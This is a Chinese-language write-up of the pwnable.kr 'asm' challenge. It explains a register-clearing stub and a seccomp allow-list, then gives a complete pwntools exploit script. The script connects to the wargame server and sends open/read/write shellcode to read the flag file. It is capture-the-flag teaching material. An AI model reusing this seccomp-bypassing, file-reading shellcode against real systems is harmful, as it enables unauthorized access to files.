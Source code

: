 ```
   d:   31 f6                   xor    esi, esi
   f:   48                      dec    eax
  10:   31 ff                   xor    edi, edi
  12:   48                      dec    eax
  13:   31 ed                   xor    ebp, ebp
  15:   4d                      dec    ebp
  16:   31 c0                   xor    eax, eax
  18:   4d                      dec    ebp
  19:   31 c9                   xor    ecx, ecx
  1b:   4d                      dec    ebp
  1c:   31 d2                   xor    edx, edx
  1e:   4d                      dec    ebp
  1f:   31 db                   xor    ebx, ebx
  21:   4d                      dec    ebp
  22:   31 e4                   xor    esp, esp
  24:   4d                      dec    ebp
  25:   31 ed                   xor    ebp, ebp
  27:   4d                      dec    ebp
  28:   31 f6                   xor    esi, esi
  2a:   4d                      dec    ebp
  2b:   31 ff                   xor    edi, edi
```

将所有寄存器清零

对我们写shellcode看起来没有啥影响

注意到源码对可用的指令做了限制

```
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
```

只能使用这些指令。。。

可以利用pwntool的shellcraft来快速编写shellcode

**Exp**

```python
#coding=utf-8
from pwn import *
context(arch="amd64",os="Linux",log_level="DEBUG")

shell = ssh(host="pwnable.kr",user="asm",port=2222,password="guest")
#shell.download_file("./asm.c")

io = shell.connect_remote("0.0.0.0",9026)
filename="this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
shellcode=""
shellcode+=shellcraft.open(filename)#打开文件到 rax(返回值)
shellcode+=shellcraft.read('rax','rsp',100)#读文件 100个字节 到栈上 (rsp)
shellcode+=shellcraft.write(1,'rsp',100)#从rsp 写到stdout=1 (stdin=0) 
print shellcode
io.sendafter("give me your x64 shellcode:",asm(shellcode))
io.interactive()
```

